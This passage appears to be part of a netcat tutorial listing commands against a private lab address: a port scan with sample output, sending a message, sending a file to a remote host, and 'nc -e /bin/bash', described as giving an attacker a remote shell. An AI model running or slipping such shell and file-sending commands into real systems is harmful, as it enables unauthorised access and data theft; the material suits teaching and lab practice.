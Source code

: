 **2. nc -zv 192.168.56.101 1-1000**
- A port scan, but indicates those that are listening and those that failed.
  ```
    Connection to 192.168.56.101 22 port [tcp/ssh] succeeded!
    nc: connect to 192.168.56.101 port 445 (tcp) failed: Connection refused
    Connection to 192.168.56.101 631 port [tcp/ipp] succeeded!
    nc: connect to 192.168.56.101 port 902 (tcp) failed: Connection refused
    Connection to 192.168.56.101 3306 port [tcp/mysql] succeeded!
    nc: connect to 192.168.56.101 port 5432 (tcp) failed: Connection refused
  ```

**3. echo "Hello, World!" | nc 192.168.56.101 1234**
- This send a **_Hello World!_** message to the listening port (1234) at the IP address 

**4. nc -e /bin/bash 192.168.56.101 1234**
- This opens a remote shell using the /bin/bash command. This allows the attacker to execute on the target machine.

**5. nc 192.168.56.101 1234 < file_to_send.txt**
- This sends a **_file_to_send.txt_** to a remote host on port 1234
